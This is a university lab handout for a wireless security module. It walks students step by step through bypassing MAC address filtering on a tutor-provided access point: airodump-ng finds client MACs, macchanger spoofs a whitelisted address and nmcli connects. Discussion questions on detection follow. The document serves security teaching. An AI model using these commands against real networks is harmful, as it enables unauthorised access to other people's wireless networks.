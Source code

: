 ## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Bypassing MAC Address Filtering  
**Author:** Dr Ayman El Hajjar  

---

# Lab Activity: Bypassing MAC Filters on a Wireless Network

---

### Objective

In this lab, you will explore MAC address filtering and learn how to bypass it by identifying and spoofing the MAC address of an authorised device using common wireless security tools.

---

## Background

MAC filtering is an outdated form of access control. It attempts to restrict which devices can connect based on their MAC address. However, since MAC addresses are sent in cleartext during normal wireless communication, they are easily spoofed.

---

## Lab Requirements

- An access point configured with MAC filtering enabled  
  - This is provided in the class by the tutor using `setup_open_ap_macfilter.sh`
- At least one client device connected to the target AP
- Kali Linux or equivalent with:
  - `aircrack-ng`
  - `macchanger`
  - `nmcli` or GUI network manager

---

## Step-by-Step Instructions

### 1. Observe Normal Client Behavior

Before spoofing, attempt to connect to the AP using your default MAC address.

```bash
nmcli dev wifi connect "6CSEF005W_macfilter_ap" ifname lab-wlan
```

> This should fail if your MAC is not whitelisted.

---

### 2. Enable Monitor Mode Temporarily (Optional)

If you want to inspect traffic:

```bash
sudo ip link set lab-wlan down
sudo iw dev lab-wlan set type monitor
sudo ip link set lab-wlan up
```

Then run:

```bash
sudo airodump-ng lab-wlan
```

---

### 3. Reset Interface to Managed Mode

Return to a state where you can attempt to connect:

```bash
sudo ip link set lab-wlan down
sudo iw dev lab-wlan set type managed
sudo ip link set lab-wlan up
```

---

### 4. Discover Target Clients (If Monitor Mode Available)

```bash
sudo airmon-ng start lab-wlan
sudo airodump-ng -c <channel> --bssid <AP_BSSID> -a lab-wlanmon
```

> Look under "STATION" to find connected client MACs.

---

### 5. Spoof a Whitelisted MAC

```bash
sudo ip link set lab-wlan down
sudo macchanger -m <WHITELISTED_MAC> lab-wlan
sudo ip link set lab-wlan up
```

---

### 6. Attempt to Connect

```bash
nmcli dev wifi connect "6CSEF005W_macfilter_ap" ifname lab-wlan
```

> You should now connect successfully if the spoofed MAC is in the whitelist.

---

## Discussion Points

- Why is MAC filtering ineffective as a security measure?
- Could this technique work if the AP also uses WPA2-Enterprise?
- How might detection systems spot spoofed MAC addresses?
- How can the presence of duplicate MACs be detected on a network?

---

## Optional Screenshots

Save in `tasks/img/`:
- Airodump-ng output showing MACs
- macchanger before/after
- Connection attempt (failed and spoofed success)

---

## Summary Table

| Step       | Tool             | Purpose                          |
|------------|------------------|----------------------------------|
| Probe      | `airodump-ng`    | Discover client MACs             |
| Spoof      | `macchanger`     | Impersonate whitelisted MAC      |
| Connect    | `nmcli`          | Access AP using spoofed MAC      |

---
